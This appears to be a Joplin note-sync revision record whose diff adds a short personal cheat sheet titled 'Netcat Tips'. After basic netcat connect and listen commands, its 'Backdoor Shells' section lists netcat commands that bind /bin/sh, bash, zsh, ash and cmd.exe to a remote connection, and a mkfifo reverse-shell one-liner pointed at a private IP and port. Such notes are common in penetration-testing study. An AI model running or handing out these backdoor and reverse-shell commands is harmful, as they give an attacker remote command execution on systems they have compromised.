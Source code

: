 id: 6d72911d5b3d42bcb1adb6d56711ba3a
parent_id: 
item_type: 1
item_id: 62728fb045964f75b84bf66d2cd46ed1
item_updated_time: 1642340198245
title_diff: "[{\"diffs\":[[1,\"Netcat Tips\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":11}]"
body_diff: "[{\"diffs\":[[1,\"## Fundamentals:\\\n\\\nConnect to a netcat client:\\\n\\\n- rlwrap nc \\\\[IP Address\\\\] \\\\[port\\\\]\\\n\\\nConnect to a netcat Listener:\\\n\\\n- rlwrap nc -lvp \\\\[Localport\\\\]\\\n\\\nMore info on rlwrap: https://linux.die.net/man/1/rlwrap\\\n\\\n## Backdoor Shells:\\\n\\\nLinux:\\\n\\\n- rlwrap nc \\\\[Your IP Address\\\\] -e /bin/sh\\\n- rlwrap nc \\\\[Your IP Address\\\\] -e /bin/bash\\\n- rlwrap nc \\\\[Your IP Address\\\\] -e /bin/zsh\\\n- rlwrap nc \\\\[Your IP Address\\\\] -e /bin/ash\\\n\\\nWindows:\\\n\\\n- rlwrap nc -lv \\\\[localport\\\\] -e cmd.exe\\\n\\\nLinux netcat reverse shell:\\\n\\\n- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.21.0.0 1234 >/tmp/f\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":570}]"
metadata_diff: {"new":{"id":"62728fb045964f75b84bf66d2cd46ed1","parent_id":"bd131b1dd5da4be4980226b78a256de0","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1614222309339,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.360Z
created_time: 2022-02-28T02:44:25.360Z
type_: 13